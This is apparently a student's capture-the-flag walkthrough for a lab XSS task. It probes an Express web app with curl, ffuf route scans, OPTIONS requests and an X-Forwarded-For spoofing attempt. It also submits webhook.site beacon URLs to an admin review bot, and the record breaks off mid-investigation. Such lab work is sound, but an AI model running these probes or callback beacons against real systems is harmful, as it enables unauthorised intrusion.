


# Task 2. XSS vulnerability

Following a cyberattack, administrators discovered that the attacker exploited a vulnerability in a web application to access sensitive information. Your task is to understand how the attacker performed the exploit and retrieve the flag by gaining admin access.

This web application allows users to view files archived in a directory. However, there is a significant security flaw that allows an attacker to bypass certain access restrictions.

**The challenge involves:**

- Access the web application at [http://web0x0a.task2.hbtn/report](http://web0x0a.task2.hbtn/report).
- Upload a malicious XSS file containing JavaScript designed to exfiltrate the admin’s credentials to a webhook URL.
- Wait for the admin to review the report and execute the malicious script.
- Retrieve the admin credentials from your webhook.
- Log in to the web application as the admin using the stolen credentials.
- Navigate to the appropriate section of the admin panel and retrieving the flag.

- Endpoint: [http://web0x0a.task2.hbtn/](http://web0x0a.task2.hbtn/)
- Report Endpoint: [http://web0x0a.task2.hbtn/report](http://web0x0a.task2.hbtn/report)

Good luck, and be cautious when handling security vulnerabilities!

Repo:

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x0a_advanced_web_attack_techniques`
- File: `2-flag.txt`


## **Solution**:

- Start sandbox `cyber_websec_0x0a_task2`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.187.117 web0x0a.task2.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x0a.task2.hbtn
```


Target IP: `10.42.187.117`

### **Step 1: Investigate the report endpoint**

The supplied [base-code repository](https://github.com/hs-hq/web0x0a) contains source code for Tasks 0 and 1, but no Task 2 directory.

We'll therefore investigate the live application.

**Run this command in Kali:**

```
curl -i -sS http://10.42.187.117/report
```

### **What are we looking for?**

The response should help us understand:

- Whether `/report` contains a file-upload form.
- Which HTTP method the form uses.
- The name of the upload field.
- Which file types might be accepted.
- Whether uploaded files are accessible through a URL.

These details will help us understand the XSS attack surface.


```html
curl -i -sS http://10.42.187.117/report

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:00:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 583
Connection: keep-alive
X-Powered-By: Express
ETag: W/"247-ap0luDJ9LTUYUbtyFqYuqUPQolw"
Set-Cookie: connect.sid=s%3AltkaOaEHZH98G89PYGMRuqyoiE4gafD6.jG%2BbvkHqaCVPv99xd2nELWUFiNGrlWSuiml%2FkYsA220; Path=/; HttpOnly

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Report</title>
    <link rel="stylesheet" type="text/css" href="/css/styles.css">
  </head>
  <body>
    <div class="container">
      
      <h1>Report to admin</h1>
      <form method="post" action="/report">
          <input type="text" name="url" placeholder="url"> </input>
          <button type="submit"> report</button>

      </form>
    </div>
  </body>
</html>
```


### **Task 2: Step 2 - Investigate the main application**

The response reveals something important: **the report page accepts a URL, not a file upload.**

```html
<form method="post" action="/report">
    <input type="text" name="url" placeholder="url">
    <button type="submit">report</button>
</form>
```

This suggests the workflow involves two separate features:

1. A way to upload or access files.
2. A report form that asks the admin bot to visit a URL.

Another interesting detail is the session cookie:

```
Set-Cookie: connect.sid=...; Path=/; HttpOnly
```

The `HttpOnly` attribute prevents JavaScript from reading that cookie directly. So we shouldn't assume the simple `document.cookie` technique from Task 0 will work here.

### **Action**

Let's inspect the application's homepage.

Run:

```bash
curl -i -sS http://10.42.187.117/
```

**Objective:** Identify the login interface, file browser, upload functionality, and any relevant routes.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/

HTTP/1.1 302 Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:07:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3Ac6u_xNMzV_6FnjKjOfz_vaGzMHHSIrOO.7tcFwQRDyLFWWcwKODplnZP7q4jkojABDdNnXbMO64Q; Path=/; HttpOnly

Found. Redirecting to /login
```

```html
curl -i -sS http://10.42.187.117/login

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:07:53 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 647
Connection: keep-alive
X-Powered-By: Express
ETag: W/"287-OX41+vHiSE8ptV7z9+kK9uUtMFw"
Set-Cookie: connect.sid=s%3ApgqAD4j5c56QbBCDLpD1ddRDNUYPuTlu.fT2gP6sfFHo%2FlT2hpzVwrlfLUTxs%2BTWNrKR4Mk%2BVvFc; Path=/; HttpOnly

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="/css/styles.css">
</head>
<body>
    <div class="container">
        
        <form action="/login" method="post">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </div>
</body>
</html>
```


### **Step 5: Discover the application's available routes**

We currently know three routes:

- `/login`: Authentication page
- `/report`: Admin review submission
- `/`: Redirects to login

We need to locate the file archive, potential registration page, or dashboard.

Let's check a small set of likely routes.

**Run this command in Kali:**

```bash
for p in register signup files archive uploads browse dashboard admin; do printf '%-12s ' "/$p"; curl -sS -o /dev/null -w '%{http_code} %{redirect_url}\n' "http://10.42.187.117/$p"; done
```

This makes eight GET requests and prints only their HTTP status codes and redirect destinations.


**Command Output:**

```bash
for p in register signup files archive uploads browse dashboard admin; do printf '%-12s ' "/$p"; curl -sS -o /dev/null -w '%{http_code} %{redirect_url}\n' "http://10.42.187.117/$p"; done
/register    404
/signup      404
/files       404
/archive     404
/uploads     301 http://10.42.187.117/uploads/
/browse      404
/dashboard   302 http://10.42.187.117/login
/admin       404
```

### **Task 2: Step 6 - Investigate&#x20;**`/uploads/`

Interesting route found

The results revealed two useful endpoints:

| Route        | Response             | Interpretation               |
| ------------ | -------------------- | ---------------------------- |
| `/uploads`   | `301` to `/uploads/` | A directory exists           |
| `/dashboard` | `302` to `/login`    | A protected dashboard exists |

The `/uploads/` directory is particularly interesting because the challenge involves files containing JavaScript.

We need to determine whether this directory supports browsing or serves uploaded HTML files.

### **Action**

Run:

```bash
curl -i -sS http://10.42.187.117/uploads/
```

**Possible results:**

- `200 OK` with file links: Directory listing is enabled.
- `403 Forbidden`: The directory exists, but listing is disabled.
- `200 OK` with an HTML page: It may expose a file-management interface.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/uploads/

HTTP/1.1 404 Not Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:31:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 147
Connection: keep-alive
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Set-Cookie: connect.sid=s%3AjeWya7keGARk2FG9FxEyuvfulfKcS0kQ.Bk22rMWvTM0z2Ab7r4gY2EJvdeGgmANYxA1sVRVu4ik; Path=/; HttpOnly

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /uploads/</pre>
</body>
</html>
```


### **Task 2: Step 7 - Check for a POST-only upload endpoint**

The response gives us another clue:

```
HTTP/1.1 404 Not Found
X-Powered-By: Express
```

```
Cannot GET /uploads/
```

The earlier `301` redirect suggests `/uploads/` may be a static directory, but directory listing isn't available.

**Important distinction:** A directory can serve individual files without allowing visitors to list its contents.

We also shouldn't rule out `/upload` yet. We only tested it using GET. An upload endpoint might accept **POST requests only**.

### **Action**

Run:

```
curl -i -sS -X OPTIONS http://10.42.187.117/upload
```

The HTTP `OPTIONS` method asks the server which request methods it supports for that route.

For example, a response containing:

```
Allow: POST
```

would suggest that `/upload` accepts file submissions even though GET returns 404.


**Command Output:**

```bash
curl -i -sS -X OPTIONS http://10.42.187.117/upload
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:34:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 4
Connection: keep-alive
X-Powered-By: Express
Allow: POST
ETag: W/"4-Yf+Bwwqjx254r+pisuO9HfpJ6FQ"
Set-Cookie: connect.sid=s%3ASEA1xzDZmTYjloGfshUpHECvJAiI34xx.KdhweyjG3ky3FtUHReo6j%2FOSAJooLsesnDPWKiMsNjM; Path=/; HttpOnly

POST
```

✅ Upload endpoint discovered!

Excellent. This confirms that `/upload` exists and accepts POST requests:

```bash
HTTP/1.1 200 OK
Allow: POST
```

Our earlier GET request returned 404 because the route doesn't support GET.

This is a useful detail about Express: different HTTP methods can have completely different route handlers.

### **Step 8: Determine what&#x20;**`/upload`**&#x20;expects**

Before uploading anything, let's see how the endpoint responds to an empty POST request.

**Run this command:**

```
curl -i -sS -X POST http://10.42.187.117/upload
```

We're looking for one of these behaviors:

- `400 Bad Request`: A required file or form field is missing.
- `302` to `/login`: Uploading requires authentication.
- `500 Internal Server Error`: The handler encountered an unexpected condition.
- An error message identifying the expected upload field.


**Command Output:**

```bash
curl -i -sS -X POST http://10.42.187.117/upload

HTTP/1.1 302 Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:38:52 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3A6dAsG6mYetT088Td7X_ltZnuWVS5xkGL.l4pY3Dih8QTJwkPySUs8XGjgRaEPs72iQ3Ii%2FvsPnXg; Path=/; HttpOnly

Found. Redirecting to /login
```

### **Task 2: Step 13 - Investigate login behavior**

This path also redirects to `/login`, so the authentication check appears consistent across the path variations we've tested.

So far, we've confirmed:

- `/upload` exists and requires authentication.
- `/dashboard` requires authentication.
- No registration endpoint was found.
- `/report` is publicly accessible.

Let's now examine how the login handler responds to invalid credentials. This may reveal useful information about its authentication flow.

### **Your next action**

Run this command:

```bash
curl -i -sS -X POST -d 'username=test&password=test' http://10.42.187.117/login
```

This submits a deliberately invalid username and password.

We're looking for:

- The HTTP status code.
- Any error message.
- Whether the server redirects.
- Whether it creates or modifies a session cookie.


**Command Output:**

```bash
curl -i -sS -X POST -d 'username=test&password=test' http://10.42.187.117/login

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 17:50:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
ETag: W/"1c-T0uQCMQyaNaS9q3LsBxDJExsuEk"
Set-Cookie: connect.sid=s%3AC9bkMyXPkXcPupZiXRlQLPDoikv9QjbF.2dd4DYVp5lkp8JsIcZKCCWgi%2F1O5SMVijGB60rQBlrg; Path=/; HttpOnly

Invalid username or password
```

### **Task 2: Step 14 - Test the admin review bot**

The login test returned:

```
HTTP/1.1 200 OK

Invalid username or password
```

This establishes the application's response to invalid credentials. We haven't found a registration mechanism or a way to upload files without authentication.

Let's now investigate the other part of the challenge: **the admin review bot**.

We know from Task 0 that report handlers may require absolute URLs, so we'll test Task 2 using a harmless URL first.

### **Action**

Run:

```bash
curl -i -sS --data-urlencode 'url=http://10.42.187.117/login' http://10.42.187.117/report
```

This asks the admin bot to visit the application's login page.

It doesn't attempt to retrieve credentials or execute JavaScript.

**What we want to establish:**

1. Does the report endpoint accept absolute URLs?
2. Does the bot successfully visit the submitted page?
3. Does the report service return a useful error or success message?


**Command Output:**

```bash
curl -i -sS --data-urlencode 'url=http://10.42.187.117/login' http://10.42.187.117/report
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 18:19:57 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-TLUU1/2aFyiex0p9lRq4AFxWP1g"
Set-Cookie: connect.sid=s%3AwoB6KjJFBqBSO4PjycpjcOC9squnWcq8.WtWwiy%2FUOl614a7TmS9uDH6vki1zmeTjtnv%2FkE1usIw; Path=/; HttpOnly

An admin will review the provided URL.
```

### **Task 2: Step 15 - Verify that the admin bot visits submitted URLs**

The response is useful:

```
An admin will review the provided URL.
```

Unlike Task 0, this application queues the URL for review. A successful submission doesn't necessarily mean the bot has visited it yet.

Before building an XSS payload, let's confirm that the bot actually follows submitted URLs.

We'll reuse your Webhook.site endpoint from Task 0.

### **Action**

Run:

```bash
curl -i -sS --data-urlencode 'url=https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3?task2=probe' http://10.42.187.117/report
```

**What this does:**

1. Submits your webhook URL to Task 2's report service.
2. Adds `task2=probe` so we can distinguish this request from the earlier Task 0 requests.
3. Allows us to observe whether the admin bot visits external URLs.

No cookies or credentials are requested by this test.

**Command Output:**

```bash
curl -i -sS --data-urlencode 'url=https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3?task2=probe' http://10.42.187.117/report

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 18:25:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-TLUU1/2aFyiex0p9lRq4AFxWP1g"
Set-Cookie: connect.sid=s%3A0BXYVVHqc6haGG_6c2bfQYX2ZlMgLUVR.ylJNohP3UfQ053EqBlf51bSA27V2gRku888ZmDDpWrs; Path=/; HttpOnly

An admin will review the provided URL.

```

> The webhook.site inbox received a GET request containing `task2=probe`.


✅&#x20;Admin bot confirmed active

Excellent! The webhook received `task2=probe`, so we know:

1. The report service accepts external HTTPS URLs.
2. The admin bot actually visits submitted URLs.
3. We can observe its requests using Webhook.site.

### **Step 16: Test whether the bot accepts self-contained HTML**

We still have one obstacle: `/upload` requires authentication.

Let's investigate whether the bot accepts a `data:` URL. Such URLs contain their own HTML, so they can display a page without needing a separate hosting server.

For this test, the HTML will contain only an image pointing to your webhook.

**Action:**

Run:

```bash
curl -i -sS --data-urlencode 'url=data:text/html,%3Cimg%20src%3D%22https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Ftask2%3Ddata%22%3E' http://10.42.187.117/report
```

### **What we're testing**

The encoded HTML is simply:

```

```

If the bot loads the HTML, its browser should request that image.

A `data:` page has its own isolated origin, so this test does not grant access to the application's cookies or protected pages.

**Command Output:**

```bash
curl -i -sS --data-urlencode 'url=data:text/html,%3Cimg%20src%3D%22https%3A%2F%2Fwebhook.site%2F0a753172-1f95-4be4-9391-2a5d668781f3%3Ftask2%3Ddata%22%3E' http://10.42.187.117/report

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 18:40:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-TLUU1/2aFyiex0p9lRq4AFxWP1g"
Set-Cookie: connect.sid=s%3AgsCmpZw6Eyy2V5jRL3fBgM8X2WX6W7ur.do5H5C79P5ed9L6Vv%2Fmh2ykbsA64KkG7abbw%2BkYjRtY; Path=/; HttpOnly

An admin will review the provided URL.
```

> The webhook.site inbox received no new requests containing `task2=data`.


### **Task 2: Step 17 - Investigate hosting an HTML payload**

The report service accepted the `data:` URL:

```
HTTP/1.1 200 OK
```

But Webhook.site received no `task2=data` request.

This means we haven't demonstrated that the bot rendered the embedded HTML. It may reject `data:` navigation or fail to load resources from it.

We do know that the bot visits ordinary HTTPS URLs, because our previous `task2=probe` test succeeded.

**Next approach:** Investigate whether Webhook.site can serve a custom HTML response. That would give us a normal HTTPS page for testing JavaScript execution in the review bot.

### **Action**

Open the existing Webhook.site inbox.

At the top, click **Edit** (the pencil icon).

We're particularly interested in whether we can configure:

- HTTP response status
- `Content-Type`
- Response body

If supported, we'll first host a harmless HTML beacon to verify that the review bot executes JavaScript from an externally hosted page.




✅&#x20;Custom HTML responses supported

The screenshot confirms that Webhook.site lets us control:

- HTTP status code
- Content type
- HTML response body

We can therefore use your webhook URL to host a small HTML page for testing.

### **Step 18: Configure a harmless JavaScript test page**

We'll make the page send a second request to our webhook when its JavaScript executes.

In the **Edit URL** window:

1. Leave **Status Code** at `200`.
2. Select **Content Type:** `text/html`.
3. Replace the existing text in the **Content** field with:
4. This HTML:

```html
<!DOCTYPE html>
<html>
<body>
<script>
  new Image().src = 'https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3?task2=js-probe';
</script>
</body>
</html>
```

5\. Click **Save**.

### **How the test works**

When a browser visits your webhook URL:

1. Webhook.site returns this HTML.
2. The browser processes the `<script>` element.
3. JavaScript creates an image request.
4. Webhook.site receives another GET request containing `task2=js-probe`.

The second request proves that JavaScript executed, rather than merely that the URL was visited.

This test doesn't attempt to access credentials or cookies.


> Huston, we have a problem.



> Script tags disabled for free users. 😢

---

`ffuf` is a good next move.

We've spent enough time testing individual routes, and a small, targeted directory scan should give us a better picture of the application.

We prioritize **endpoint discovery before password guessing**.

The usernames `maroua` and `yosri` can be checked later, but we have no evidence they're valid for this particular application.

### **Task 2: Step 19 - Discover hidden endpoints with ffuf**

We'll use Kali's standard `dirb` wordlist.

**Run this command:**

```bash
ffuf -u http://10.42.187.117/FUZZ -w /usr/share/wordlists/dirb/small.txt -fc 404 -rate 15 -t 3
```

### **Understanding the command**

| Option     | Purpose                                      |
| ---------- | -------------------------------------------- |
| `-u`       | Target URL                                   |
| `FUZZ`     | Placeholder replaced by each word            |
| `-w`       | Wordlist containing directory and file names |
| `-fc 404`  | Hide nonexistent paths                       |
| `-rate 15` | Limit requests to 15 per second              |
| `-t 3`     | Use three concurrent workers                 |


**Command Output:**

```bash
ffuf -u http://10.42.187.117/FUZZ -w /usr/share/wordlists/dirb/small.txt -fc 404 -rate 15 -t 3


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.42.187.117/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 3
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

css                     [Status: 301, Size: 153, Words: 6, Lines: 11, Duration: 18ms]
images                  [Status: 301, Size: 156, Words: 6, Lines: 11, Duration: 18ms]
login                   [Status: 200, Size: 647, Words: 146, Lines: 22, Duration: 25ms]
report                  [Status: 200, Size: 583, Words: 102, Lines: 21, Duration: 27ms]
secret                  [Status: 403, Size: 9, Words: 1, Lines: 1, Duration: 17ms]
uploads                 [Status: 301, Size: 157, Words: 6, Lines: 11, Duration: 18ms]
:: Progress: [959/959] :: Job [1/1] :: 14 req/sec :: Duration: [0:01:04] :: Errors: 0 ::

```

✅&#x20;Interesting endpoint discovered!

The scan found something important:

```
secret    [Status: 403, Size: 9]
```

This is our strongest lead so far.

A `403 Forbidden` response means the server recognized the request but refused access. That fits the challenge's description of a protected resource with potentially bypassable access restrictions.

### **Task 2: Step 20 - Examine&#x20;**`/secret`

Before testing bypasses, let's determine which component is blocking access.

**Run this command:**

```
curl -i -sS http://10.42.187.117/secret
```

We'll inspect:

- Whether the response comes from Nginx or Express.
- The response headers.
- The exact error message.
- Whether authentication or another access-control rule appears responsible.

This distinction matters because Nginx and Express can normalize URLs differently.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/secret

HTTP/1.1 403 Forbidden
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:19:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: keep-alive
X-Powered-By: Express
ETag: W/"9-PatfYBLj4Um1qTm5zrukoLhNyPU"
Set-Cookie: connect.sid=s%3A_Zfrc_Zj1Iakg2Yku9dWvKbfMTIPJF6h.EUtJP0f%2BYj2wDJ8TwS2%2BP8oZWOm006yLhnCf5Onx6X0; Path=/; HttpOnly

Forbidden
```

### **Task 2: Step 21 - Test the&#x20;**`/secret`**&#x20;access restriction**

The response confirms that the restriction is enforced by **Express**, not directly by Nginx:

```
HTTP/1.1 403 Forbidden
X-Powered-By: Express

Forbidden
```

This is interesting because the application recognizes `/secret` and deliberately denies access.

Let's test whether the restriction handles differently capitalized paths consistently.

### **Your next action**

Run:

```bash
curl -i -sS http://10.42.187.117/SECRET
```

**Why this might work:**

Express route matching is case-insensitive by default, unless the application explicitly enables case-sensitive routing.

If a developer implemented an authorization check using a case-sensitive string comparison, `/SECRET` might reach the same route while avoiding the check.

We're testing for that discrepancy.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/SECRET

HTTP/1.1 403 Forbidden
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:22:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: keep-alive
X-Powered-By: Express
ETag: W/"9-PatfYBLj4Um1qTm5zrukoLhNyPU"
Set-Cookie: connect.sid=s%3AaEpBmapFtE9KUIQ9MT9BCyyyHeUWG4gY.vzZdZkOjQv%2BJ18Tn3CSVG8NQBOIUBYWHGkJs9S%2FBrBE; Path=/; HttpOnly

Forbidden

```

### **Task 2: Step 22 - Test IP-based access control**

The uppercase variation also returned `403`, so changing capitalization doesn't bypass the restriction.

There's another clue worth investigating.

Notice the difference:

| Endpoint     | Unauthenticated response   |
| ------------ | -------------------------- |
| `/dashboard` | `302` redirect to `/login` |
| `/upload`    | `302` redirect to `/login` |
| `/secret`    | `403 Forbidden`            |

This suggests `/secret` may use a different access-control mechanism, possibly an IP allowlist rather than session authentication.

### **Action**

Run:

```bash
curl -i -sS -H 'X-Forwarded-For: 127.0.0.1' http://10.42.187.117/secret
```

**What are we testing?**

The `X-Forwarded-For` header is commonly used by reverse proxies to communicate the original client's IP address.

If the Express application trusts this header without verifying that it came from a trusted proxy, an attacker may be able to impersonate a request from localhost.

- `200 OK`: Potential IP-based access-control bypass.
- `403 Forbidden`: The header didn't bypass the restriction.
- Another response: We'll examine what changed.

**Command Output:**

```bash
curl -i -sS -H 'X-Forwarded-For: 127.0.0.1' http://10.42.187.117/secret

HTTP/1.1 403 Forbidden
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:24:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: keep-alive
X-Powered-By: Express
ETag: W/"9-PatfYBLj4Um1qTm5zrukoLhNyPU"
Set-Cookie: connect.sid=s%3AEtGkJXtZEoZ29SHBhYix9ZWGWAgtmGYm.TiWrNXsSXRy%2BRaLNappOyPBDgv9z7URPB6K8hWzembE; Path=/; HttpOnly

Forbidden
```

### **Task 2: Step 23 - Determine where&#x20;**`/secret`**&#x20;is blocked**

The `X-Forwarded-For` test also returned `403`, so we have no evidence that this endpoint trusts a client-supplied IP address.

Rather than trying more headers at random, let's investigate whether access is denied by a global middleware or by the `/secret` handler itself.

### **Action**

Run:

```bash
curl -i -sS -X OPTIONS http://10.42.187.117/secret
```

**Why this is useful:**

Express can automatically respond to `OPTIONS` with the HTTP methods supported by a route.

Two interesting outcomes:

- `200 OK`**&#x20;with&#x20;**`Allow: GET,HEAD`**:** The route exists, and its GET handler may be responsible for returning `403`.
- `403 Forbidden`**:** Access might be blocked by middleware before the route handler executes.

The difference will help us understand where the restriction is enforced.


**Command Output:**

```bash
curl -i -sS -X OPTIONS http://10.42.187.117/secret

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:28:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 8
Connection: keep-alive
X-Powered-By: Express
Allow: GET,HEAD
ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"
Set-Cookie: connect.sid=s%3APeXXX-VVBXZTvEjSsQdOcZR3KdM-6FhX.1n1nBFxienx7tx7EaiaAANYC6zlmfjLqWqw7NlxWRTs; Path=/; HttpOnly

GET,HEAD
```

### **Task 2: Step 24 - Discover POST-only endpoints**

The result confirms that `/secret` is registered as a GET route:

```
HTTP/1.1 200 OK
Allow: GET,HEAD
```

Its GET handler returns `403`, but this doesn't tell us whether the restriction is based on authentication, user role, or another condition.

Let's return to a useful discovery from earlier: **GET&#x20;**`/upload`**&#x20;returned 404 even though POST&#x20;**`/upload`**&#x20;exists.**

Our first `ffuf` scan used GET, so it could have missed other important endpoints.

### **Action**

Let's repeat the directory discovery using `OPTIONS`.

Run:

```bash
ffuf -u http://10.42.187.117/FUZZ -w /usr/share/wordlists/dirb/small.txt -X OPTIONS -fc 404 -rate 15 -t 3
```

The only significant change is:

```
-X OPTIONS
```

This lets us discover routes that may not support GET.

We're particularly interested in endpoints related to:

- File uploads and file management
- User accounts
- Authentication
- Admin functionality
- File previews or rendering

**Expected:** We should rediscover `/upload`, and possibly additional routes that were invisible to our original scan.


**Command Output:**

```bash
ffuf -u http://10.42.187.117/FUZZ -w /usr/share/wordlists/dirb/small.txt -X OPTIONS -fc 404 -rate 15 -t 3


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : OPTIONS
 :: URL              : http://10.42.187.117/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 3
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

login                   [Status: 200, Size: 13, Words: 1, Lines: 1, Duration: 25ms]
report                  [Status: 200, Size: 13, Words: 1, Lines: 1, Duration: 19ms]
secret                  [Status: 200, Size: 8, Words: 1, Lines: 1, Duration: 21ms]
upload                  [Status: 200, Size: 4, Words: 1, Lines: 1, Duration: 20ms]
view                    [Status: 200, Size: 8, Words: 1, Lines: 1, Duration: 20ms]
:: Progress: [959/959] :: Job [1/1] :: 14 req/sec :: Duration: [0:01:04] :: Errors: 0 ::

```

🎉&#x20;New endpoint discovered: `/view`

The `OPTIONS` scan found a route that our GET scan missed:

```
view    [Status: 200, Size: 8]
```

This is particularly interesting because the challenge describes an application that allows users to view archived files.

The `/view` endpoint could be central to the vulnerability.

### **Task 2: Step 25 - Investigate the file viewer**

**Run this command:**

```bash
curl -i -sS http://10.42.187.117/view
```

We're looking for clues about:

- Whether authentication is required.
- Whether the endpoint expects a filename or path parameter.
- How it handles requests without a filename.
- Whether it returns file contents directly.

For example, an error mentioning a missing `file` parameter would help us understand the expected request format.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/view

HTTP/1.1 400 Bad Request
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:37:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 21
Connection: keep-alive
X-Powered-By: Express
ETag: W/"15-JaV8xTqhnG67iWu2j4qauuAIiPg"
